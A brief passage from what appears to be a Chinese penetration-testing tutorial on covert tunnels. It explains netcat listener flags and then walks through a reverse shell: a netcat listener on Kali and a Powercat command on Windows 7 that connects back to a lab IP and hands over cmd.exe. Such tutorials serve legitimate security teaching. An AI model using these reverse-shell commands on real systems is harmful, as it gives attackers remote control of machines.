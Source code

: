 * -l：监听模式，用于入站连接
* -p：指定监听端口
* -e：指定要启动的进程名称
* -v：显示详情

（3）通过nc反向连接Powercat

在Kali中执行如下命令：

```
netcat -l -p 8881 -vv
```

![](img/隐藏通信隧道基础知识/49.png)

然后在Windows7中执行如下命令，-c参数用于提供想要连接的IP地址：

```
powercat -c 192.168.2.7 -p 8881 -v -e cmd.exe
```

![](img/隐藏通信隧道基础知识/50.png)
